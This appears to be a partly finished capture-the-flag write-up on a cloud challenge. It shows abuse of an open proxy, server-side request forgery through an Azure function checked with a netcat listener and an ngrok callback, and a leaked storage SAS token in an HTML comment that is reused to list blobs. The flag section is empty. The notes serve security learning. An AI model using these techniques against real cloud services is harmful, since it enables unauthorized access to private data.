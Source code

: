 # Challenge Name

### Description

Jaga reached Meow Olympurr and met some native Meows. While cautious at first, they warmed up and shared that they have recently created a website to promote tourism!  
However, the young Meows explained that they are not cy-purr security trained and would like to understand what they might have misconfigured in their environments. The young Meows were trying to get two different environments to work together, but it seems like something is breaking....  
Log a cy-purr security case by invoking the _mysterious_ function and retrieve the secret code!  
[d2p9lw76n0gfo0.cloudfront.net](http://d2p9lw76n0gfo0.cloudfront.net/)

## Solution

Endpoints



http://18.141.147.115:8080/
https://meowolympurr.z23.web.core.windows.net/
https://olympurr-app.azurewebsites.net/api/meowvellous

https://meowolympurr.blob.core.windows.net/

### Endpoint 1 - Cloud flare

GO to a 404 page, theres's an image link

http://18.141.147.115:8080/https://meowolympurr.z23.web.core.windows.net/images/ohno.jpg

### Endpoint 3 - Proxy

![[Pasted image 20221204010733.png]]


http://18.141.147.115:8080/https://030f-128-106-225-50.ngrok.io

```http
(base) [hacker@hackerbook ~]$ nc -nlvp 4444
Connection from 127.0.0.1:57562
GET / HTTP/1.1
Host: 030f-128-106-225-50.ngrok.io
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 128.106.225.50
X-Forwarded-For: 18.141.147.115
X-Forwarded-Port: 8080
X-Forwarded-Proto: http
X-Forwarded-Proto: https

^CExiting.
(base) [hacker@hackerbook ~]$ 
```


### Endpoint 2 - Azure?

Check 404 page again

![[Pasted image 20221204010854.png]]

```html
<!--
For access to website source codes:
https://meowolympurr.blob.core.windows.net?sv=2017-07-29&ss=b&srt=sco&sp=rl&se=2022-12-12T00:00:00Z&st=2022-09-01T00:00:00Z&spr=https&sig=UE2%2FTMTAzDnyJEABpX4OYFBs1b1uAWjwEEAtjeQtwxg%3D
-->
</main>
```

Main Page has azure function  linke
![[Pasted image 20221204012908.png]]

### Azure Function

![[Pasted image 20221204012924.png]]

![[Pasted image 20221204013057.png]]

```
(base) [hacker@hackerbook tmp]$ nc -nlvp 4444
Connection from 127.0.0.1:57568
GET / HTTP/1.1
Host: 030f-128-106-225-50.ngrok.io
User-Agent: python-requests/2.28.1
Accept: */*
Accept-Encoding: gzip, deflate
X-Forwarded-For: 20.247.147.55
X-Forwarded-Proto: http

```


https://olympurr-app.azurewebsites.net/api/meowvellous?url=https%3A%2F%2Fmeowolympurr%2Eblob%2Ecore%2Ewindows%2Enet%3Fsv%3D2017%2D07%2D29%26ss%3Db%26srt%3Dsco%26sp%3Drl%26se%3D2022%2D12%2D12T00%3A00%3A00Z%26st%3D2022%2D09%2D01T00%3A00%3A00Z%26spr%3Dhttps%26sig%3DUE2%252FTMTAzDnyJEABpX4OYFBs1b1uAWjwEEAtjeQtwxg%253D%0A

![[Pasted image 20221204013329.png]]


### Azure Blob

Related Link

1. https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction

https://meowolympurr.blob.core.windows.net/?sv=2017-07-29&ss=b&srt=sco&sp=rl&se=2022-12-12T00:00:00Z&st=2022-09-01T00:00:00Z&spr=https&sig=UE2%2FTMTAzDnyJEABpX4OYFBs1b1uAWjwEEAtjeQtwxg%3D

![[Pasted image 20221204015227.png]]



## Cloud Function Trying to access Source code


## Flag
``